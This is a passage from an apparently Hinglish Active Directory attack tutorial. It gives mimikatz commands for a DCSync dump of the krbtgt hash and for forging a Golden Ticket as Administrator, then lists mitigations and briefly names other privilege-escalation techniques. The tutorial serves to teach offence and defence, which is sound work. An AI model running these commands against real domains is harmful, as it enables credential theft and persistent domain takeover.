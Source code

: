 CopyEdit

`mimikatz.exe lsadump::dcsync /domain:<DOMAIN> /user:krbtgt`

📌 **Ab Golden Ticket generate karo:**

powershell

CopyEdit

`mimikatz.exe kerberos::golden /domain:<DOMAIN> /sid:<SID> /krbtgt:<KRBTGT_HASH> /user:Administrator /ptt`

🔥 **Boom! Attacker ne ek "forever-valid" ticket create kar diya jo full domain access de sakta hai.**

✅ **Mitigation:**

- **krbtgt ka password har 90 days me rotate karo.**
    
- **SIEM me Event ID 4769 aur 4672 monitor karo jo unusual Kerberos activity detect karta hai.**
    
- **Strong Kerberos policies implement karo.**
    

---

## **🔥 Final Thoughts**

😈 **Agar tu real-world AD exploitation seekh raha hai, toh yeh advanced techniques kaafi important hain.**  
✅ **DCSync aur Golden Ticket attacks domain-wide persistence ke liye dangerous hain.**  
✅ **NTLM relay aur Printer Bug attacks low-privileged user ko SYSTEM access de sakte hain.**  
✅ **RBCD aur Shadow Credentials ka abuse kaafi stealthy aur powerful privilege escalation techniques hain.**